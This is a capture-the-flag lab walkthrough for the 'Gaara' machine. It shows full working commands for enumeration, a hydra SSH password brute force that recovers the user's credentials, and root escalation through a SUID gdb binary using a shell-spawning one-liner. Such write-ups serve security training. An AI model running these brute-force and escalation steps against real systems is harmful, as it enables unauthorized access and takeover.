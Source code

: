 # PG Play - Gaara

#### Ip: 192.168.198.142
#### Name: Gaara
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

Nmap:
```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ sudo nmap -p- --min-rate 10000 192.168.198.142 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-09 15:39 CDT
Nmap scan report for 192.168.198.142
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
```

The site on port 80 is just an image of an anime character.

Trying directory fuzzing, Feroxbusted didn't find anything:

```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ feroxbuster --url http://192.168.198.142 -q
```

But trying gobuster with a bigger directory list finally found http://192.168.198.142/Cryoserver with a few entries at the bottom of the page:


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.198.142        
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.198.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/09 15:42:06 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 280]
/Cryoserver           (Status: 200) [Size: 327]
Progress: 220560 / 220561 (100.00%)
===============================================================
2024/10/09 16:07:00 Finished
=======================================
```

/Temari
/Kazekage
/iamGaara

Each endpoint is a long text document going over the history of the anime.

![pgpl_gaara_words.png](../assets/gaara_assets/pgpl_gaara_words.png)

We can copy and paste the contents of each endpoint into a .txt file to see if they contain the same amount of words:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc gaara.txt 
   28  2622 15953 gaara.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc kazekage.txt 
   40  2632 16131 kazekage.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc temari.txt  
   40  2632 16131 temari.txt
```

Interesting, it appears that `/iamGaara` is shorter than the other enpoints

### Exploitation / FootHold

Lets try using `cewl` to generate a wordlist for `/iamGaara` and `/Temari`


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ cewl http://192.168.198.142/iamGaara > cewl.txt

┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cewl http://192.168.198.142/Temari > cewl2.txt 
```

The endpoints above also appear to be usernames so I'll ad those to users.txt file

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cat users.txt 
temari
kazekage
iamgaara
gaara
```

After getting no hits against SSH with my cewl wordlists, I turned to trusty rockyou.txt.

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  ssh://192.168.198.142 
```

This finally cracks the credentials `gaara:iloveyou2`


We can now use this credential to login as user gaara:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ ssh gaara@192.168.198.142 
The authenticity of host '192.168.198.142 (192.168.198.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.198.142' (ED25519) to the list of known hosts.
gaara@192.168.198.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
```

We can now access the local.txt flag:

![pgpl_gaara_local.png](../assets/gaara_assets/pgpl_gaara_local.png)

### Privilege Escalation

Loading LinPeas onto the target, we see that `gdb` has the SUID bit set.

![pgpl_gaara_lp2.pg](../assets/gaara_assets/pgpl_gaara_lp2.png)

Lets head to GTFObins for the command we'll need to exploit this:

![pgpl_gaara_gtfo.png](../assets/gaara_assets/pgpl_gaara_gtfo.png)

We can run it as shown:

```
gaara@Gaara:/tmp$ cd /usr/bin
gaara@Gaara:/usr/bin$ ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
--Type <RET> for more, q to quit, c to continue without paging--
Type "apropos word" to search for commands related to "word".
# whoami
root
```

We can now access the final flag:

![pgpl_gaara_root.png](../assets/gaara_assets/pgpl_gaara_root.png)

Thanks for following along!

-Ryan

-----------------------------------------
